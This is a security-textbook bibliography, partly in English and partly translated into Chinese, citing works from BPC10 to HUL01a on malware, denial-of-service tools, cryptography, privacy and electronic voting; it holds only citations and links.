[BPC10] Bipartisan Policy Center. “Cyber Shockwave.” *web page*, 2010. <http://www.bipartisanpolicy.org/events/cyber2010>

[BRA06] Bradbury, D. “The Metamorphosis of Malware Writers.” *Computers & Security*, v25 n2, Mar 2006, p89–90.

[BRA10] Bradley, T. “WikiLeaks: A Case Study in Web Survivability.” *PC World*, 8 Dec 2010.

[BRA77] Branstad, D., et al. “Report of the Workshop on Cryptography in Support of Computer Security.” *NBS Technical Report*, NBSIR 77-1291, Sep 1977.

[BRA88] Branstad, M., et al. “Security Issues of the Trusted Mach Operating System.” *Proc 1988 Aerospace Comp Sec Applications Conf*, 1988.

[BRE02a] Brewin, B. “Retailers Defend Low-Level Security on Wireless LANs.” *Computerworld*, 31 May 2002.

[BRE02b] Brezinski, D., and Killalea, T. “Guidelines for Evidence Collection and Archiving.” *Internet Engineering Task Force Report RFC 3227*, Feb 2002.

[BRO02] Brouersma, M. “Study Warns of Open-Source Security Danger.” *ZDNet UK News*, 31 May 2002.

[BRO11] Broad, W., et al. “Israeli Test on Worm Called Crucial in Iran Delay.” *New York Times*, 15 Jan 2011.


### 参考文献

[BUR12] Burleson, W., et al. “Design Challenges for Secure Implantable Medical Devices.” *Proc IEEE/ACM Design Automation Conf*, 2012.

[BUT10] Butler, E. “Firesheep.” *Codebutler blog*, 2010. <http://codebutler.com/firesheep>

[BUX02] Buxton, P. “Egg Rails at Password Security.” *Netimperative*, 24 Jun 2002.

[BYE04] Byers, S. “Information Leakage Caused by Hidden Data in Published Documents.” *IEEE Security & Privacy*, v2 n2, Mar 2004, p23–28.

[CAF14] Cafesoft. “Security ROI: Web Application Security as a Business Enabler.” *Unpublished white paper*. <http://www.cafesoft.com/products/cams/security-roi-white-paper.html>

[CAM03] Campbell, K., et al. “The Economic Cost of Publicly Announced Information Security Breaches.” *Jl of Computer Security*, v11 n3, Mar 2003, p431–448.

[CAM93] Campbell, K., and Wiener, M. “Proof That DES Is Not a Group.” *Proc Crypto Conf*, 1993, p512–520.

[CAP14] Caputo, D., *et al*. “Going Spear Phishing: Exploring Embedded Training and Awareness.” *IEEE Security & Privacy*, v12 n1, Jan 2014, p28–38.

[CAS05] Casey, E. “Case Study: Network Intrusion Investigation—Lessons in Forensic Preparation.” *Digital Investigation*, v2, n4, 2005, p254–260.

[CAT09] Catteddu, D., and Hogben, G. “Cloud Computing: Benefits, Risks and Recommendations for Internet Security.” *报告，欧洲网络与信息安全局*，2009 年 11 月。

[CAV04] Cavusoglu, H., et al. “The effect of Internet security breach announcements on market value.” *国际电子商务期刊*，第 9 卷，第 1 期，2004 年，第 69–104 页。

[CCE98] Common Criteria Editorial Board (CCEB). “Common Criteria for Information Technology Security Evaluation, version 2.” *报告*，CCIMB-99-031，1998 年 3 月。

[CDT09] CDT (Center for Democracy and Technology). *Ghosts in Our Machines: Background and Policy Proposals on the Spyware Problem*, CDT 报告，华盛顿特区，2009 年 11 月。 <https://cdt.org/insight/ghosts-in-our-machines-background-and-policy-proposals-on-the-%E2%80%9Cspyware%E2%80%9D-problem/>

[CEN10] Cenzik, Inc. “Web Application Security Trends Report Q3-Q4 2009.” *技术报告*，Cenzik, Inc. <http://www.cenzic.com/downloads/Cenzic_AppsecTrends_Q3-Q4-2009.pdf>

[CER10] CERT (Computer Emergency Response Team). “Top 10 Secure Coding Practices.” *CERT 网络发布*，2010 年。 <https://www.securecoding.cert.org/confluence/display/seccode/Top+10+Secure+Coding+Practices>

[CER99] CERT (Computer Emergency Response Team). “Results of the Distributed Systems Intruder Tools Workshop.” *CERT 协调中心报告*，1999 年 12 月。

[CHA01] Chaq, A. “Software Free-for-All.” *华盛顿邮报*，2001 年 9 月 5 日。

[CHA81] Chaum, D. “Untraceable Electronic Mail, Return Addresses and Pseudonyms.” *ACM 通讯*，第 24 卷，第 2 期，1981 年 2 月，第 84–88 页。

[CHA82] Chaum, D. “Blind Signatures for Untraceable Payments.” *加密会议论文集*，1982 年，第 199–205 页。

[CHA85] Chaum, D. “Security Without Identification: Transaction Systems.” *ACM 通讯*，第 28 卷，第 10 期，1985 年 10 月，第 1030–1044 页。

[CHE02] Cheswick, W., and Bellovin, S. *Firewalls and Internet Security*. 第 2 版，Addison-Wesley，2002 年。

[CHE14a] Chebyshev, V., and Unuchek, R. “Mobile Malware Evolution: 2013.” *Kaspersky Secure-list* 网络报告，2014 年 2 月 24 日。 <https://securelist.com/analysis/kaspersky-security-bulletin/58335/mobile-malware-evolution-2013/>

[CHE14b] Chen, Q., et al. “Peeking into Your App without Actually Seeing It: UI State Inference and Novel Android Attacks.” *第 23 届 USENIX 安全研讨会论文集*，2014 年 8 月。

[CHE90] Cheswick, W. “An Evening with Berferd, in Which a Cracker Is Lured, Endured, and Studied.” *冬季 USENIX 会议论文集*，1990 年 6 月。

[CHR02] Christey, S., and Wysopal, C. “Responsible Vulnerability Disclosure Process.” *互联网草案*，互联网协会，2002 年 2 月。

[CHR09] Christodorescu, M. “Cloud Security Is Not (Just) Virtualization Security.” *2009 年云计算安全研讨会论文集*，2009 年 11 月 13 日。

[CLA06] Clark, N., and Wald, M. “Hurdle for US in Getting Data on Passengers.” *纽约时报*，2006 年 5 月 31 日。

[CLI03] Clifton, C., et al. “Tools for Privacy-Preserving Distributed Data Mining.” *ACM SIGKDD 探索*，第 4 卷，第 2 期，2003 年 1 月。

[COF02] Coffee, P. “On the Mend?” *eWeek*，2002 年 6 月 3 日。

[COH87] Cohen, F. “Computer Viruses–Theory and Experiments.” *计算机与安全*，第 6 卷，第 1 期，1987 年 2 月，第 22–35 页。

[COL01] Cole, S. “The Myth of Fingerprints.” *纽约时报*，2001 年 5 月 13 日。

[COO10] Cook, I., and Pfleeger, S. “Security Decision Support Challenges in Data Collection and Use.” *IEEE 安全与隐私*，第 8 卷，第 3 期，2010 年，第 28–35 页。

[COP92] Coppersmith, D. “DES and Differential Cryptanalysis.” *私人通信*，1992 年 3 月 23 日。

[COW01] Cowan, N. “The Magical Number 4 in Short-Term Memory: A Reconsideration of Mental Storage Capacity.” *行为与脑科学*，第 24 卷，2001 年，第 87–185 页。

[COW98] Cowan, C., et al. “StackGuard: Automatic Adaptive Detection and Prevention of Buffer-Overflow Attacks.” *第 7 届 USENIX 安全研讨会论文集*，1998 年 1 月 26 日。

[CRO06] Cross, T. “Academic Freedom and the Hacker Ethic.” *ACM 通讯*，第 39 卷，第 6 期，2006 年 6 月，第 37–40 页。

[CRO89] Crocker, S., and Bernstein, M. “ARPANet Disruptions: Insight into Future Catastrophes.” *TIS (Trusted Information Systems) 报告*，247，1989 年 8 月 24 日。

[CSA11] CSA (Cloud Security Alliance). “Security Guidance for Critical Areas of Focus in Cloud Computing V3.0.” *CSA 白皮书*，2011 年 11 月 14 日。

[CSA13] CSA (Cloud Security Alliance). “Mapping the Forensic Standard ISO/IEC 27037 to Cloud Computing.” *CSA 白皮书*，2013 年 6 月 26 日。

[CSG07] CSG (Computer Security Group of the University of California, Santa Barbara). “Security Evaluation of the Sequoia Voting System,” 公开报告，计算机科学系，加州大学圣塔芭芭拉分校，2007 年。 <https://www.cs.ucsb.edu/~vigna/publications/2007_vigna_kemmerer_balzarotti_banks_cova_felmetsger_robertson_valeur_sequoia.pdf>

[CUL01] Culp, S. “It’s Time to End Information Anarchy.” *微软安全专栏*，2001 年 10 月。 <http://www.microsoft.com/technet/columns/secdurity/noarch.asp>

[CUL04] Cullison, A. “Inside Al Qaeda’s Hard Drive.” *大西洋月刊*，2004 年 9 月。

[CUR87] Curtis, B., et al. “On Building Software Process Models Under the Lamppost.” *国际软件工程会议论文集*，1987 年，第 96–103 页。

[DAN05] Danezis, G., and Anderson, R. “The Economics of Resisting Censorship.” *IEEE 安全与隐私*，第 3 卷，第 1 期，2005 年 1 月，第 45–50 页。

[DAN09] Danchev, D. “Conficker’s Estimated Economic Cost: $9.1 Billion.” *ZDNet 博客*，2009 年 4 月 23 日。

[DAN13] Danchev, D. “How much does it cost to buy 10,000 U.S.-based malware-infected hosts?” Webroot 威胁博客，2013 年 2 月 28 日。 <http://www.webroot.com/blog/2013/02/28/how-much-does-it-cost-to-buy-10000-u-s-based-malware-infected-hosts/?utm_source=feedburner&utm_medium=feed&utm_campaign=Feed%3A+WebrootThreatBlog+%28Webroot+Threat+Blog%29>

[DAV05] Davidson, M. “Leading by Example: The Case for IT Security in Academia.” *Educause*，第 40 卷，第 1 期，2005 年 1 月，第 14–22 页。

[DEK08] de Koning Gans, G., et al. “A Practical Attack on the MIFARE Classic.” *计算机科学讲义*，第 5189/2008 卷，第 267–282 页。

[DEM83] DeMillo, R., and Merritt, M. “Protocols for Data Security.” *IEEE Computer*，第 16 卷，第 2 期，1983 年 2 月，第 39–54 页。

[DEN76] Denning, D. “A Lattice Model of Secure Information Flow.” *ACM 通讯*，第 19 卷，第 5 期，1976 年 5 月，第 236–243 页。

[DEN83] Denning, D., and Schlorer, J. “Inference Controls for Statistical Data Bases.” *IEEE Computer*，第 16 卷，第 7 期，1983 年 7 月，第 69–82 页。

[DEN86] Denning, D. “An Intrusion-Detection Model.” *IEEE 安全与隐私研讨会论文集*，1986 年，第 102–117 页。

[DEN87] Denning, D. “An Intrusion-Detection Model.” *IEEE 软件工程汇刊*，第 SE-13 卷，第 2 期，1987 年 2 月，第 222–226 页。

[DEN90b] Denning, P. “Sending a Signal.” *ACM 通讯*，第 33 卷，第 8 期，1990 年 8 月，第 11–13 页。

[DEN98] Denning, D., and Denning, P. *Internet Besieged—Countering Cyberspace Scofflaws*. Addison-Wesley，1998 年。

[DEN99a] Denning, D. “Activism, Hactivism, and Cyberterrorism: The Internet as a Tool for Influencing Foreign Policy.” *世界事务委员会研讨会*，1999 年 12 月 10 日。 <http://www.nautilus.org/info-policy/workshop/papers/denning.html>

[DIF04] Di Franco, A., et al. “Mall Vote Manipulations Can Swing Elections.” *ACM 通讯*，第 47 卷，第 10 期，2004 年 10 月，第 43–45 页。

[DIF07] Diffie, W., and Landau, S. *Privacy on the Line: The Politics of Wiretapping and Encryption*. MIT Press, 1998, rev. ed. 2007.


### 参考文献

[DIF76] Diffie, W., and Hellman, M. “New Directions in Cryptography.” *IEEE Trans on Information Theory,* vIT-22 n6, Nov 1976, p644–654.

[DIF77] Diffie, W., and Hellman, M. “Exhaustive Cryptanalysis of the NBS Data Encryption Standard.” *IEEE Computer,* v10 n6, Jun 1977, p74–84.

[DIT99a] Dittrich, D. “The DoS Project’s ‘trinoo’ distributed denial of service attack tool.” *Unpublished report, Univ of Washington,* 21 Oct 1999. [`staff.washington.edu/dittrich/misc/trinoo.analysis.txt`](http://staff.washington.edu/dittrich/misc/trinoo.analysis.txt)

[DIT99b] Dittrich, D. “The ‘Tribe Flood Network’ distributed denial of service attack tool.” *Unpublished report, Univ of Washington,* 21 Oct 1999. [`staff.washington.edu/dittrich/misc/tfn.analysis.txt`](http://staff.washington.edu/dittrich/misc/tfn.analysis.txt)

[DIT99c] Dittrich, D. “The ‘stacheldraht’ distributed denial of service attack tool.” *Unpublished report, Univ of Washington,* 31 Dec 1999. [`staff.washington.edu/dittrich/misc/stacheldraht.analysis.txt`](http://staff.washington.edu/dittrich/misc/stacheldraht.analysis.txt)

[DOD08] DOD (U.S. Dept of Defense). “Department of Defense Dictionary of Military Terms.” *Joint Publication 1-02,* 17 Oct 2008.

[DOD85] DOD (U.S. Dept of Defense). *Trusted Computer System Evaluation Criteria*. DOD5200.28-STD, Dec 1985.

[DOD98] Doddington, G., et al. “Sheep, Goats, Lambs and Wolves: A Statistical Analysis of Speaker Performance in the NIST 1998 Speaker Recognition Evaluation.” *Proc. Int’l Conf. Spoken Language Processing,* 1998.

[DON10] Donaghue, E. “Parents pry for answers about grade-changing scandal.” *Montgomery County Gazette,* 10 Mar 2010.

[DRI08] Drimer, S., et al. “Thinking Inside the Box: System-Level Failures of Tamper Proofing.” *Univ of Cambridge Computer Laboratory Tech Rpt,* UCAM-CL-TR-711, Feb 2008.

[DRW09] Dr. Web (antivirus company). “Backdoor.TDSS.535 and its Modifications (aka TDL3).” *Unpublished report,* 2009. [`st.drweb.com/static/BackDoor.Tdss.565_%28aka%20TDL3%29_en.pdf`](http://st.drweb.com/static/BackDoor.Tdss.565_%28aka%20TDL3%29_en.pdf)

[DUF10] Duff, G. “Review of the Organ Donor Register.” *Report,* 19 Oct 2010.

[DUH12] Duhigg, C. “How Companies Learn Your Secrets.” *New York Times Magazine*, Feb 16, 2012. [`www.nytimes.com/2012/02/19/magazine/shopping-habits.html?pagewanted=1&_r=1&hp`](http://www.nytimes.com/2012/02/19/magazine/shopping-habits.html?pagewanted=1&_r=1&hp)

[DUN10] Dunn, J. “FBI Fails to Break Crypto.” *Computerworld UK,* 30 Jun 2010.

[DUR99] Durst, R., et al. “Testing and Evaluating Computer Intrusion Detection Systems.” *Comm of the ACM,* v42 n7, Jul 1999, p53–61.

[ECO10] Economist, The. “War in the Fifth Domain.” *The Economist,* 3 Jul 2010.

[EDE06] Edelman, B. “Adverse Selection in Online ‘Trust’ Certifications.” *Proc Fifth Workshop on the Economics of Info Security,* 2006.

[EDE93] Edelstein, D. “Report on the IEEE STD 1219-199–Standard for Software Maintenance.” *ACM SIGSOFT Software Engineering Notes,* v18 n4, 1993, p94.

[EFF06] EFF (Electronic Frontier Foundation). “Unintended Consequences: Seven Years under the DMCA.” *Unpublished web report,* v4, Apr 2006. [`www.eff.org`](http://www.eff.org)

[EFF98] EFF (Electronic Frontier Foundation). *Cracking DES*. O’Reilly, 1998.

[EIC89] Eichen, M., and Rochlis, J. “With Microscope and Tweezers: Analysis of the Internet Virus.” *Proc IEEE Symp on Security & Privacy,* 1989.

[ELE95] El Emam, K., and Madhavji, N. “The Reliability of Measuring Organizational Maturity.” *Software Process Improvement and Practice,* v1 n1, 1995, p3–25.

[ELG06] Elgin, B., and Einhorn, B. “The Great Firewall of China.” *Bloomberg Business News,* 12 Jan 2006.

[ELG85] El Gamal, A. “A Public Key Cryptosystem and Signature Scheme Based on Discrete Logarithms.” *IEEE Trans on Information Theory,* vIT-31 n4, Jul 1985, p469–472.

[ELG86] El Gamal, A. “On Computing Logarithms over Finite Fields.” *Proc Crypto Conf,* 1986, p396–402.

[ELL04] Elliott, C. “Quantum Cryptography.” *IEEE Security & Privacy,* v2 n4, Jul 2004, p57–61.

[EPI10] Electronic Privacy Information Center (EPIC). web page on Google Street View. 8 Oct 2010. [`epic.org/privacy/streetview/`](http://epic.org/privacy/streetview/)

[ERB01] Erbschloe, M. *Information Warfare: How to Survive Cyber Attacks*. Osborne/McGraw-Hill, 2001.

[EVR09] Evron, G. “Authoritatively, Who Was Behind the Estonian Attacks?” *Dark Reading Hacked Off Weblog,* 26 Mar 2009.

[FAB74] Fabry, R. “Capability-Based Addressing.” *Comm of the ACM,* v17 n7, Jul 1974, p403–412.

[FAL10] Falliere, N. “W.32-Stuxnet Dossier.” *Symantec Security Response Report,* Version 1.3, Nov 2010. [`www.wired.com/images_blogs/threatlevel/2010/11/w32_stuxnet_dossier.pdf`](http://www.wired.com/images_blogs/threatlevel/2010/11/w32_stuxnet_dossier.pdf)

[FAR90] Farmer, D., and Spafford, E. “The COPS Security Checker System.” *Proc Summer Usenix Conf,* 1990, p165–170.

[FAR95] Farmer, D., and Venema, W. “SATAN: Security Administrator Tool for Analyzing Networks.” *Unpublished report,* 1995. [www.cerias.purdue.edu/coast/satan.html](http://www.cerias.purdue.edu/coast/satan.html)

[FAR96] Farringdon, J. *Analyzing for Authorship: A Guide to the COSUM Technique*. Univ of Wales Press, 1996.

[FBI10] FBI (U.S. Federal Bureau of Investigation). “U.S. Indicts Ohio Man and Two Foreign Residents. . . .” *FBI Press Release,* 27 May 2010. [`chicago.fbi.gov/dojpressrel/pressrel10/cg052710.htm`](http://chicago.fbi.gov/dojpressrel/pressrel10/cg052710.htm)

[FEL06] Felten, E., and Halderman, [J.] A. “Digital Rights Management, Spyware and Security.” *IEEE Security & Privacy,* v4 n1, Jan 2006, p18–23.

[FEL08] Felch, J., and Dolan, M. “When a Match is Far from a Lock.” *Los Angeles Times,* 4 May 2008.

[FER03] Ferraiolo, D., et al. *Role-Based Access Controls*. Artech House, 2003.

[FET05] Fetscherin, M., and Vlietstra, C. “Digital Music: Key Factors Determining the Download Price.” *E-Business Review*, vV, 2005.

[FIS02a] Fisher, D. “Trusting in Microsoft.” *eWeek,* 4 Mar 2002.

[FIS02b] Fisher, D. “Patch or No, Flaws Go Public.” *eWeek,* 28 May 2002.

[FIS10] Fisher, Dennis. “Anatomy of the Eleonore Exploit Kit.” *Threatpost: Kaspersky Labs Security Threat News Service,* Kaspersky Labs, 3 Jun 2010. [`threatpost.com/en_us/blogs/anatomy-eleonore-exploit-kit-060310`](http://threatpost.com/en_us/blogs/anatomy-eleonore-exploit-kit-060310)

[FIS10a] Fisher, D. “TDL4 Rootkit Bypasses Windows Code-Signing Protection.” *Kaspersky Threatpost,* 16 Nov 2010.

[FIS78] Fischoff, B., et al. “How Safe is Safe Enough? A Psychometric Study of Attitudes towards Technological Risks and Benefits.” *Policy Sciences,* v9, 1978, p127–152.

[FLU01] Fluhrer, S., et al. “Weaknesses in the Key Scheduling Algorithm of RC4.” *Proc 8th Annual Workshop on Selected Areas in Cryptography,* 2001.

[FOR01] Forno, R. “Code Red Is Not the Problem.” *HelpNet Security,* 27 Aug 2001.

[FOR96] Forrest, S., et al. “A Sense of Self for Unix Processes.” *Proc IEEE Symp on Security & Privacy,* 1996.

[FOX90] Fox, K., et al. “A Neural Network Approach Towards Intrusion Detection.” *Proc National Computer Security Conf,* Oct 1990.

[FRA73] Frankena, W. *Ethics*. Prentice-Hall, 1973.

[FRA83] Fraim, L. “Scomp: A Solution to the Multilevel Security Problem.” *IEEE Computer,* v16 n7, Jul 1983, p26–34.

[FRI10] Friedland, G., and Sommer, R. “Cybercasing the Joint: On the Privacy Implications of Geotagging.” *Proc 2010 Usenix Workshop on Hot Topics in Sec,* Aug 2010.

[FTC00] FTC (U.S. Federal Trade Commission). “Privacy Online: Fair Information Practices in the Electronic Marketplace.” *FTC Report to Congress,* May 2000.

[FTC06] FTC（美国联邦贸易委员会）。“2005 年 1 月至 12 月消费者欺诈和身份盗窃投诉数据。”*白皮书*，2006 年。

[FUL07a] Fulghum, D., 和 Barrie, D. “以色列在空袭叙利亚神秘目标中使用了电子攻击。”《航空周刊》，2007 年 10 月 8 日。

[FUL07b] Fulghum, D., 等。“以色列展示电子战实力。”《航空周刊》，2007 年 11 月 25 日。

[FUL07c] Fulghum, D. “为什么叙利亚防空系统未能探测到以色列飞机。”《航空周刊博客》，2007 年 10 月 3 日。


### 参考文献

**[FUR05]** Furnell, S. “为什么用户无法使用安全功能。”《计算机与安全》，第 24 卷 第 4 期，2005 年 6 月，第 274–279 页。

**[GAR03]** Garfinkel, S., 和 Shelat, A. “过往数据的追忆：磁盘清理实践研究。”《IEEE 安全与隐私》，第 1 卷 第 1 期，2003 年 1 月，第 17–27 页。

**[GAR13]** Garg, S., 等。“所有电路的候选不可区分混淆与函数加密。”《密码学电子打印存档，报告 2013/451》，2013 年。

**[GAR14]** Gartner, Inc. “联合身份管理。”访问于 2014 年 8 月 31 日。<http://www.gartner.com/it-glossary/federated-identity-management>

**[GAS88]** Gasser, M. 《构建安全系统》。Van Nostrand Reinhold 出版社，1988 年，第 372–385 页。

**[GEA12]** Geary, J. “DoubleClick：它是什么，有什么作用？”《卫报》，2012 年 4 月 23 日。<http://www.theguardian.com/technology/2012/apr/23/doubleclick-tracking-trackers-cookies-web-monitoring>

**[GEE03]** Geer, D., 等。“垄断的代价。”《计算机与通信工业协会报告》，2003 年 9 月 24 日。<https://www.schneier.com/essay-318.html>

**[GEE03a]** Geer, D., 等。“网络不安全：垄断的代价。”*未发表的白皮书*，2003 年 9 月 24 日。<http://www.ccianet.org/papers/cyberinsecurity.pdf>

**[GEL09]** Gellman, R. “云端隐私：云计算对隐私和机密性的风险。”《世界隐私论坛》（2009 年）。<http://www.worldprivacyforum.org/wp-content/uploads/2009/02/WPF_Cloud_Privacy_Report.pdf>

**[GEO12]** Georgiev, M., 等。“世界上最危险的代码：在非浏览器软件中验证 SSL 证书。”《计算机与通信安全 ACM 会议 ’12》，2012 年。

**[GER05]** Gerg, I. “缓冲区溢出漏洞利用概述与示例。”《IA 通讯》，第 7 卷，第 4 期，2005 年，第 17–21 页。

**[GER89]** Gerhart, S. “可信计算机系统形式化方法评估。”《ACM TAV 会议论文集》，1989 年，第 152–155 页。

**[GER94]** Gerhart, S., 等.“关键系统中形式化方法的经验。”《IEEE 软件》，第 11 卷 第 1 期，1994 年 1 月，第 21–28 页。

**[GHO10]** Ghosh, A. “网络战——大惊小怪还是货真价实？”《Invincea 博客》，2010 年 7 月 26 日。

**[GIB01]** Gibson, S. “针对 GRC.COM 的拒绝服务攻击的离奇故事。”《Gibson Research 公司技术报告》，2001 年 6 月 2 日。<http://grc.com/grcdos.html>

**[GIB09]** Gibbs, W. “黑客如何从反射中窃取秘密。”《科学美国人》，2009 年 4 月 27 日。

**[GIL90]** Gilbert, H., 和 Chauvaud, R. “对 FEAL-8 密码系统的统计攻击。”《密码学会议论文集》，1990 年，第 22–33 页。

**[GLA11]** Glanz, J., 和 Markoff, J. “埃及领导人找到了互联网的‘关断’开关。”《纽约时报》，2011 年 2 月 15 日。

**[GOL13]** Goldwasser, S., 等.“简洁函数加密及应用：可重用混淆电路及更多。”《ACM 计算理论研讨会》，2013 年。

**[GOL77]** Gold, B., 等.“VM/370 安全改造计划。”《ACM 年会论文集》，1977 年，第 411–418 页。

**[GON09]** Gong, L. “Java 安全：十年回顾。”《2009 年计算机安全应用年会论文集》，2009 年。

**[GON97]** Gong, L. “Java 安全：现状与近期未来。”《IEEE Micro》，第 17 卷 第 3 期，1997 年 5-6 月，第 14–18 页。

**[GOO09]** Goodin, D. “护照 RFID 被 250 美元 eBay 拍卖狂潮批量克隆。”《The Register》，2009 年 2 月 2 日。<http://www.theregister.co.uk/2009/02/02/low_cost_rfid_cloner/>

**[GOO10]** Google, Inc. “来自 Postini 的 2010 年第三季度垃圾邮件和病毒趋势。”《Google 企业博客》，2010 年 10 月 18 日。<http://googleenterprise.blogspot.com/2010/10/q310-spam-virus-trends-from-postini.html>

**[GOR02]** Gordon, L., 和 Loeb, M. 《管理网络安全资源》。McGraw-Hill 出版社，2006 年。

**[GOR09]** Gorobets, N., 和 Trivaylo, A. “泄漏射发：概述与系统分析。”《无线电物理与电子学》，第 883 期，2009 年，第 83–88 页。<http://www-radiovestnik.univer.kharkov.ua/full/883-gor.pdf>

**[GOS07]** Gosling, M. “80%神话。”网络帖子，2007 年 2 月 19 日。<http://www.continuitycentral.com/feature0440.htm>

**[GOS09]** Gosling, M., 和 Hiles, A. “业务连续性统计：神话与事实的交汇。”网络帖子，2009 年 4 月 24 日。<http://www.continuitycentral.com/feature0660.html>

**[GRA72]** Graham, [G.] S., 和 Denning, P. “保护——原则与实践。”《AFIPS 春季联合计算机会议论文集》，1972 年，第 417–429 页。

**[GRA87]** Grady, R., 和 Caswell, D. 《软件度量：建立全公司范围的计划》。Prentice-Hall 出版社，1987 年。

**[GRE06]** Greenemeier, L. “Oracle 安全受到审查。”《信息周刊》，2006 年 3 月 6 日。

**[GRE10]** Greenberg, A. “思科为黑客留的后门。”《福布斯专题报道》，2010 年 2 月 3 日。

**[GRE13]** Green, M. “Dual_EC_DRBG 的诸多缺陷。”个人网站 <http://blog.cryptographyengineering.com/2013/09/the-many-flaws-of-dualecdrbg.html>，2013 年 9 月 18 日。

**[GRI02]** Griffin, P. “安全缺陷导致电信公司移动邮件关闭。”《新西兰先驱报》，2002 年 4 月 28 日。

**[GRI08]** Grimes, R. “计算机安全：为什么要最小权限？”《InfoWorld》，2008 年 2 月 8 日。

**[GRO10]** Gross, G. “专家称网络和公司应为网络战做准备。”《Network World》，2010 年 9 月 20 日。

**[GWI03]** Gwin, G. “安全投资回报率：Web 应用安全作为业务推动者。”*未发表的 Cafesoft 白皮书*，2003 年。<http://www.cafesoft.com/products/cams/security-roi-white-paper.html>

**[HAF91]** Hafner, K., 和 Markoff, J. 《赛博朋克》。Touchstone, Simon and Schuster 出版社，1991 年。

**[HAL08a]** Halderman, [J.] A., 等.“切勿遗忘：针对加密密钥的冷启动攻击。”《第 17 届 USENIX 安全研讨会论文集》，2008 年。

**[HAL08b]** Halperin, D., 等.“起搏器和植入式心脏除颤器：软件无线电攻击与零功耗防御。”《2008 年 IEEE 安全与隐私研讨会论文集》，2008 年。

**[HAL10]** Halderman, [J.] A. “攻击华盛顿特区互联网投票试点。”*发布于 Freedom to Tinker 博客*，2010 年 10 月 5 日。<http://www.freedom-to-tinker.com/blog/jhalderm/hacking-dc-internet-voting-pilot>

**[HAL14]** Haldeman, J., 等.“爱沙尼亚互联网投票系统安全分析。”密歇根大学开放权利组织报告，2014 年 5 月。

**[HAL67]** Halmer, O. “未来分析：德尔菲法。”《兰德公司技术报告》，P-3558，1967 年。

**[HAL95]** Halme, L., 和 Bauer, R. “AINT Misbehaving——反入侵技术分类法。”《国家信息系统安全会议论文集》，1995 年，第 1–23 页。

**[HAM50]** Hamming, R. “错误检测和错误纠正码。”《贝尔系统技术期刊》，第 29 卷，1950 年，第 147–160 页。

**[HAN00]** Hancock, W. [B.] “网络攻击：拒绝服务（DoS）和分布式拒绝服务（DDoS）。”《Exodus Communications 白皮书》，2000 年。

**[HAR12]** Hardt, D. “The OAuth 2.0 Authorization Framework.” *Internet Engineering Task Force Report RFC 6749*, 2012 年 10 月。

**[HAR14]** Hardy, Q. “The Peril of Knowledge Everywhere.” *New York Times*, 2014 年 5 月 10 日。 [`bits.blogs.nytimes.com/2014/05/10/the-peril-of-knowledge-everywhere/?_php=true&_type=blogs&hpw&rref=technology&_r=0`](http://bits.blogs.nytimes.com/2014/05/10/the-peril-of-knowledge-everywhere/?_php=true&_type=blogs&hpw&rref=technology&_r=0)

**[HAR76]** Harrison, M., 等. “Protection in Operating Systems.” *Comm of the ACM,* v19 n8, 1976 年 8 月, p461–471。

**[HAR88]** Hardy, N. “The Confused Deputy.” *Operating Systems Review*, v22, n4, 1988 年。

**[HED11]** Hedgpeth, D. “WikiLeaks, Free Speech and Twitter.” *The Washington Post,* 2011 年 2 月 16 日。

**[HEI07]** Heise Security Ltd. “Estonian DDoS–A Final Analysis.” *Heise Security Archive,* 2007 年 5 月 25 日。 [`www.h-online.com/security/news/item/Estonian-DDoS-a-final-analysis-732971.html`](http://www.h-online.com/security/news/item/Estonian-DDoS-a-final-analysis-732971.html)

**[HEP09]** Hepner, C., 等. “Defending Against BGP Man-In-The-Middle Attacks.” *Blackhat 2009 DC Conference,* 2009 年 2 月。

**[HID05]** Hidema, T., 等. “A Trial of the Interception of Display Image using Emanation of Electromagnetic Wave.” *Jl of Inst of Image Electronics Engineers of Japan,* v34, n2, 2005 年。

**[HIG10]** Higgins, K. “Researcher Intercepts GSM Cell Phones During Defcon Demo.” *Dark Reading,* 2010 年 7 月 31 日。

**[HOA81]** Hoare, A. “The Emperor’s Old Clothes.” *Comm of the ACM,* v24, n2, 1981 年 2 月, p75–81。

**[HOF00]** Hoffman, L. “Internet Voting: Will It Spur or Corrupt Democracy?” *Proc Computers, Freedom and Privacy Conf,* 2000 年。 [`www.acm.org/pubs/citations/proceedings/cas/332186/`](http://www.acm.org/pubs/citations/proceedings/cas/332186/)

**[HOF87]** Hoffman, L. “Making Every Vote Count: Security and Reliability of Computerized Vote-Counting Systems.” *Markle Foundation Report,* 1987 年 12 月。

**[HOG06]** Hoglund, G., and Butler, J. *Rootkits: Subverting the Windows Kernel*. Addison-Wesley, 2006 年。

**[HOG99]** Hoglund, G. “A Real NT Rootkit.” *Phrack Magazine,* v9, n55, 1999 年 9 月 9 日。 [`phrack.org/issues.html?issue=55&id=5#article`](http://phrack.org/issues.html?issue=55&id=5#article)

**[HON12]** Honan, M. “How Apple and Amazon Security Flaws Led to My Epic Hacking.” *Wired*, 2012 年 8 月 6 日。 [`www.wired.com/2012/08/apple-amazon-mat-honan-hacking/all/`](http://www.wired.com/2012/08/apple-amazon-mat-honan-hacking/all/)

**[HOP08]** Hope, P., and Walther, B. *Web Security Testing Cookbook*. O’Reilly, 2008 年。

**[HOR14]** Horne, B. “CSIRTS: Guest Editor’s Introduction.” *IEEE Security & Privacy*, v12, n5, 2014 年 9 月。

**[HOR60]** Horsburgh, H. “The Ethics of Trust.” *Philosophical Quarterly,* v10, 1960 年, p343–354。

**[HOU01a]** Housley, R., and Polk, T. *Planning for PKI*. Wiley, 2001 年。

**[HOU01b]** Houle, K., and Weaver, G. “Trends in Denial of Service Attack Technology.” *CERT Coordination Center Report,* 2001 年。

**[HOU99]** Housley, R. “Cryptographic Message Syntax.” *Internet Engineering Task Force Report RFC2630*, 1999 年 4 月。

**[HOW02]** Howard, M., and LeBlanc, D. *Writing Secure Code,* 第 2 版, Microsoft Press, 2002 年。


### 参考文献

**[HOW04]** Howes, E. “Comments by Eric L. Howes on the Problem of Spyware in Advance of the FTC April 2004 Spyware Workshop.” *U.S. Federal Trade Commission public comments, #110 Project P044509,* 2004 年。 [`www.ftc.gov/os/comments/spyware/040329howes.pdf`](http://www.ftc.gov/os/comments/spyware/040329howes.pdf)

**[HRW99]** HRW (Human Rights Watch). “The Internet in the Mideast and North Africa: Free Expression and Censorship.” *Human Rights Watch White Paper,* 1999 年 6 月。

**[HUL01]** Hulme, G. “Full Disclosure.” *Information Week,* 2001 年 8 月 6 日, p31–32。

**[HUL01a]** Hulme, G. “Code Red: Are You Ready For the Next Attack?” *Information Week,* 2001 年 8 月 6 日, p22。

